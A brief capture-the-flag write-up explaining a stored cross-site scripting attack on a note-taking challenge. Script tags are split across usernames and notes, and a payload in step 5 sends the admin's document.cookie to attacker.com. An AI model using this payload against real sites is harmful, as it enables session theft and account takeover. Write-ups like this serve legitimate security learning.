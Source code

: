 # x1337 Sk1d R3p0rt3r Write Up

1. Register an account
2. Change your username to `*/</script`
3. Create a new note with whatever data
4. Change your username to `<script>/*`
5. Create a new note that follows this syntax: `*/ <PAYLOAD> /*` where `<PAYLOAD>` is the javascript snippet to fetch the admin session or fetching the contents of the note id #1.
	Note: Strings must use the \` to be declared as HTML encoding will break the script parsing
	```*/ new Image().src=`http://attacker.com/?c=`+document.cookie /*```
6. Click "send to admin" and wait for the payload to execute thus sending you the flag
